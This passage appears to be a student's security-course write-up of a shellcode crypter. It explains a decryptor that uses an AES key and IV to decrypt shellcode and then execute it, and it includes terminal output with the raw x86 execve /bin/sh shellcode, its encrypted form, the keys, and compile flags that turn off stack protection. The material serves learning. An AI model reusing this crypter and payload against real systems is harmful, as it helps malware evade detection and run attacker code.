 Second, the 256 bit AES key, 128 bit initialization vector and encrypted shellcode are all placed into decrypt.c

decrypt.c then uses the aforementioned key and IV to decrypt the encrypted shellcode and display the shellcode in it's original form. The `execute_shellcode` function is then called and passes control of the program to the shellcode, this continues to use `execve` to execute `/bin/sh`.

~~~ bash
skawa@ubuntu:~/Desktop/code/assignment/assignment7$ gcc encrypt.c -l crypto -o encrypt
skawa@ubuntu:~/Desktop/code/assignment/assignment7$ ./encrypt
[+] AES 128 bit IV: KSB1FebW397VI5uG
[+] AES 256 bit Key: PKdhtXMmr18n2L9K88eMlGn7CcctT9Rw
[+] Original Shellcode (25 bytes):
\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
[+] Encrypted Shellcode (32 bytes):
\xb0\x69\x09\xde\xc5\x63\x0e\x69\x5c\xd1\x7e\x34\xf3\xc1\x7b\x28\x6c\x47\x48\xd4\x5b\x83\x82\x6b\x4b\xb5\x52\x47\xb1\x3e\xf2\x70
skawa@ubuntu:~/Desktop/code/assignment/assignment7$ vim decrypt.c
skawa@ubuntu:~/Desktop/code/assignment/assignment7$ cat decrypt.c | grep "iv\[\]"
  unsigned char iv[] = "KSB1FebW397VI5uG";
skawa@ubuntu:~/Desktop/code/assignment/assignment7$ cat decrypt.c | grep "key\[\]"
  unsigned char key[] = "PKdhtXMmr18n2L9K88eMlGn7CcctT9Rw";
skawa@ubuntu:~/Desktop/code/assignment/assignment7$ cat decrypt.c | grep "encrypted\[\]"
  unsigned char encrypted[] = "\xb0\x69\x09\xde\xc5\x63\x0e\x69\x5c\xd1\x7e\x34\xf3\xc1\x7b\x28\x6c\x47\x48\xd4\x5b\x83\x82\x6b\x4b\xb5\x52\x47\xb1\x3e\xf2\x70";
skawa@ubuntu:~/Desktop/code/assignment/assignment7$ gcc -fno-stack-protector -z execstack decrypt.c -l crypto -o decrypt
skawa@ubuntu:~/Desktop/code/assignment/assignment7$ ./decrypt
[+] Encrypted Shellcode (32 bytes):
\xb0\x69\x09\xde\xc5\x63\x0e\x69\x5c\xd1\x7e\x34\xf3\xc1\x7b\x28\x6c\x47\x48\xd4\x5b\x83\x82\x6b\x4b\xb5\x52\x47\xb1\x3e\xf2\x70
[+] AES 128 bit IV: KSB1FebW397VI5uG
[+] AES 256 bit Key: PKdhtXMmr18n2L9K88eMlGn7CcctT9Rw
[+] Decrypted Shellcode (25 bytes):
\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
[+] Executing Shellcode:

$
~~~
